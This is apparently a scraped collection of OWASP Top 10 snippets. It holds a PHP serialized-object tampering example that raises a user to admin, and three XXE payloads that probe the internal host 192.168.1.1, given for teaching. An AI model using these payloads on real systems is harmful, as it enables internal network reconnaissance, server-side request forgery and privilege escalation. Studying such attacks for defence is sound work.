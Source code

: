 LANGUAGE: PHP
CODE:
```
Original User State:
a:4:{i:0;i:132;i:1;s:7:"Mallory";i:2;s:4:"user";i:3;s:32:"b6a8b3bea87fe0e05022f8f3c88bc960";}

Attacker Modified Admin State:
a:4:{i:0;i:1;i:1;s:5:"Alice";i:2;s:5:"admin";i:3;s:32:"b6a8b3bea87fe0e05022f8f3c88bc960";}
```

----------------------------------------

TITLE: XXE Attack: Probing Internal Network
DESCRIPTION: This XML snippet shows how an attacker can use an XXE vulnerability to probe the server's internal network. By changing the external entity's SYSTEM URI, the attacker attempts to access internal resources like a private web server.
SOURCE: https://github.com/owasp/top10/blob/master/2017/en/0xa4-xxe.md#_snippet_1

LANGUAGE: XML
CODE:
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "https://192.168.1.1/private" >]>
<foo>&xxe;</foo>
```

----------------------------------------

TITLE: XXE Attack: Probe Private Network
DESCRIPTION: This snippet demonstrates an XML External Entity (XXE) attack where an attacker attempts to probe a server's internal network by referencing a private IP address. This can reveal internal network topology or services.
SOURCE: https://github.com/owasp/top10/blob/master/2017/OWASP-Top-10-2017-fr.html#_snippet_1

LANGUAGE: XML
CODE:
```
<!ENTITY xxe SYSTEM "https://192.168.1.1/private" >]>
```

----------------------------------------

TITLE: XXE Attack: Private Network Probing
DESCRIPTION: This XML External Entity (XXE) snippet demonstrates how an attacker can attempt to probe a server's private network by referencing an internal IP address. If the XML parser processes external entities, it might attempt to connect to the specified internal resource, potentially revealing network topology or accessible services.
SOURCE: https://github.com/owasp/top10/blob/master/2017/OWASP-Top-10-2017-en.html#_snippet_4

LANGUAGE: XML
CODE:
```
<!ENTITY xxe SYSTEM "https://192.168.1.1/private" >]>
```
